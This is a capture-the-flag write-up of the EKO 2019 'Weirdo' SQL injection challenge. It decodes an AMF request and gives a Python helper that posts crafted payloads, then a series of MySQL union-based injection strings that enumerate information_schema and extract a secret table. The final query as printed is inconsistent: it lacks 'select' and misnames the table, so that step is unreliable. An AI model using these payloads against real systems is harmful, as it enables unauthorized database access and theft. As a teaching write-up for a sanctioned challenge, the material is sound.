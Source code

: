 ```yaml
---
layout: post
title: Weirdo (SQLi writeup - EKO 2019)
---
```


Quick writeup of a SQL injection challenge.

<!--more-->
We start with a
[pcap](/assets/eko2019-writeups/weiro-dir/wtf.pcap)
of a HTTP communication between a client and a server.

It is only one request/response.

With ``wireshark`` we can see that the parties are talking using
[AMF](https://en.wikipedia.org/wiki/Action_Message_Format)

Here is the decoded ``POST``:

```
Hypertext Transfer Protocol
    POST / HTTP/1.1
    Content-type: application/x-amf
    Content-Length: 40
Action Message Format
    AMF version: 0
    Header count: 0
    Message count: 1
    Messages
        Target URI: EKO.CTF
        Response URI: /1
        Length: Unknown
        ECMA array (1 items)
            AMF0 type: ECMA array (0x08)
            Array length: 0
            Property 'q' String 'arg'
                Name: q
                    String length: 1
                    String: q
                String 'arg'
                    AMF0 type: String (0x02)
                    String length: 3
                    String: arg
            End Of Object Marker
```

### Brief AMF Disassemble

In particular, this is the hexdump of the AMF message:

```
0000   00 00 00 00 00 01 00 07 45 4b 4f 2e 43 54 46 00
0010   02 2f 31 ff ff ff ff 08 00 00 00 00 00 01 71 02
0020   00 03 61 72 67 00 00 09
```

From the end to the begin, the ``00 00 09`` is the
``End of Object Marker``, ``02 00 03 61 72 67`` is the
``arg`` string, in ASCII prefixed with 2 bytes that
determines its length in big endian and all of that is
prefixed with on byte, ``02`` that says what follows is
a string.

I'm going to stop here as my understanding of AMF is quite
low and it deserves a separate post.

Playing with the value of the query, this ``arg``, is all
what we need to get some fun.

Replacing ``arg`` with ``'xx`` we get a database error showing
that the server is vulnerable to a SQL injection.

So you know what I'm talking about.


### Custom Queries

Before playing, we need a simple way to submit custom queries.

We treat the AMF message as an opaque string, the only thing
that we need is to inject an arbitrary string ``q`` prefixed
with its size.

```python
>>> from cryptonita import B

>>> hdr = '''
... 00 00 00 00 00 01 00 07 45 4b 4f 2e 43 54 46 00
... 02 2f 31 ff ff ff ff 08 00 00 00 00 00 01 71 02
... '''

>>> hdr = B(hdr, encoding=16)
>>> eom =  B('00 00 09', encoding=16)

>>> def payload(q):
...     q  = B(q)
...     sz = B(len(q))
...
...     sz = sz.pack('>H') # uint16, big endian
...     return hdr + sz + q + eom
```

We wrap this into a HTTP POST.

```python
import requests

def post(q):
    url = 'https://wtf.eko.cap.tf/'
    data = payload(q)

    r = requests.post(url, data=data)
    for chunk in r.content.split(b'network'):
        chunk = B([c for c in chunk if chr(c).isprintable()])
        print(chunk)
```

The response is also a AMF message that we treat it as a binary blob.

For this reason we arbitrary split the response in chunks and we
filter out any non-printable char.

And *voila!* With ``post`` we can submit arbitrary queries and see their
responses.

### Prologue and Epilogue

We know that we are injecting in the middle of a SQL query but
we don't know *where*.

We may be injecting here

```
select ??? from ??? where ???='<here>' ;
```

but we may be injected here:

```
select ??? from ??? where ??? in (select ??? from ??? where ???='<here>' ???);
```

The possibilities are infinite.

If we *assume* the first case, we could try this:

 - a *prologue* of ``'`` to close the left side of the query
 - a *epilogue* of ``; --`` to close the statement and ignore anything
on the right.

```
>>> q = b"'; --"
```

The idea is that we transform the *host* query

```
select ??? from ??? where ???='<here>';
```

into this:

```
select ??? from ??? where ???=''; --';
```

But we were wrong. It failed.

Perhaps we are in the wrong spot, perhaps one of our injected characters
were filtered or our prologue and/or epilogue is wrong.

The ``--`` begins a comment. Each SQL engine has its own. The ``--`` works
in Oracle and under *some* conditions in MySQL.

The ``#`` works only in MySQL without any condition so we could try that:

```python
>>> q = b"'; #"
```

```
select ??? from ??? where ???=''; #';
```

And it worked! And we learnt that the database is a MySQL for free.

[Ref](http://www.sqlinjection.net/comments/)


### Deducing the Host Query Structure

Under the hypothetical host query:

```
select ??? from ??? where ???='<here>';
```

We could learn how many *columns* is using the ``select`` making the
query to order the results by the, let's say, the 10th column.

If it fails we now that it has less than 10 columns.

After some binary search, we learn that it has 5 columns:

```python
>>> q = b"' order by 5 ;#"    # 5 columns
```

```
select c1, c2, c3, c4, c5 from ??? where ???='' order by 5 ; #';
```

We can experiment further with:

```python
>>> q = b"' union select 99, 98, 97, 96, 95 from information_schema.tables ;#"
```

```
select ??? from ??? where ???='' union select 99, 98, 97, 96, 95 from information_schema.tables ;#';
```

This also validates that the database engine is a MySQL (``information_schema``
is MySQL specific) and that we can *union* the results.

The last confirms that the host query is just a ``select`` and we are
injecting in the ``where`` clause.


### Information Gathering

With this we can learn what other tables are in the database:

```python
>>> q = b"' and 1=0 union select 99, table_name, 97, 96, 95 from information_schema.tables ;#"
```

```
select ??? from ??? where ???='' and 1=0 union select 99, table_name, 97, 96, 95 from information_schema.tables ;#';
```

And with this one we can learn what columns has the table ``secret``, table that
found with the previous query and it has a interesting name.

```python
>>> q = b"' and 1=0 union select 99, column_name, 97, 96, 95 from information_schema.columns where table_name='secret' ;#"
```

```
select ??? from ??? where ???='' and 1=0 union select 99, column_name, 97, 96, 95 from information_schema.columns where table_name='secret' ;#';
```

In both cases the ``and 1=0`` makes the *host* query to produce zero results
and it makes the output much cleaner.


### Profit!

Finally:

```python
>>> q = b"' and 1=0 union 99, secret, 97, 96, 95 FROM secrets ;#"
>>> post(q)
<...>
EKO{ this is the flag }
<...>
```

```
select ??? from ??? where ???='' and 1=0 union 99, secret, 97, 96, 95 FROM secrets ;#';
```
